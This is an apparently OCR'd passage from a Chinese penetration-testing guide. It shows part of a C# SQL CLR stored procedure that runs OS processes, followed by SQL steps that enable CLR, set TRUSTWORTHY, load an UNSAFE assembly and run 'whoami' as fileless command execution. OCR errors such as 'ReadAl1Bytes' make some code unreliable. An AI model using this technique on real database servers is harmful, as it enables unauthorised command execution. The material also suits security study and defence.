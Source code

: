 ```csharp
        process.OutputDataReceived += (sender, args) => stdOutput.AppendLine(args.Data);
        string stdError = null;
        try
        {
            process.Start();
            process.BeginOutputReadLine();
            stdError = process.StandardError.ReadToEnd();
            process.WaitForExit();
        }
        catch (Exception e)
        {
            SqlContext.Pipe.Send(e.Message);
        }

        if (process.ExitCode == 0)
        {
            SqlContext.Pipe.Send(stdOutput.ToString());
        }
        else
        {
            var message = new StringBuilder();

            if (!string.IsNullOrEmpty(stdError))
            {
                message.AppendLine(stdError);
            }

            if (stdOutput.Length != 0)
            {
                message.AppendLine("Std output:");
                message.AppendLine(stdOutput.ToString());
            }
            SqlContext.Pipe.Send(filename + arguments + " finished with exit code = " + process.ExitCode + ": " + message);
        }
        return stdOutput.ToString();
    }
}
```
	启用MSSQL CLR
	sp_configure 'clr enabled', 1
	GO
	RECONFIGURE
	GO
	ALTER DATABASE master SET TRUSTWORTHY ON;
	获取字节流
	var byteStream =BitConverter.ToString(File.ReadAl1Bytes(@"c:\your.dll")).Replace("-",""); 
	File.WriteAllText(@"C:\bytestream.txt",byteStream);
	利用SQL语句导入程序集
	CREATE ASSEMBLY [Database1]
	    AUTHORIZATION [dbo]
	FROM 0x4d5a...[...]
	WITH PERMISSION_SET = UNSAFE;
	GO
	创建存储过程
	CREATE PROCEDURE [dbo].[ExecCommand]
	@cmd NVARCHAR (MAX)
	AS EXTERNAL NAME [Database1].[StoredProcedures].[ExecCommand]
	go
	无文件落地执行命令
	exec dbo.ExecCommand "whoami";
 #### R脚本
  	前提条件：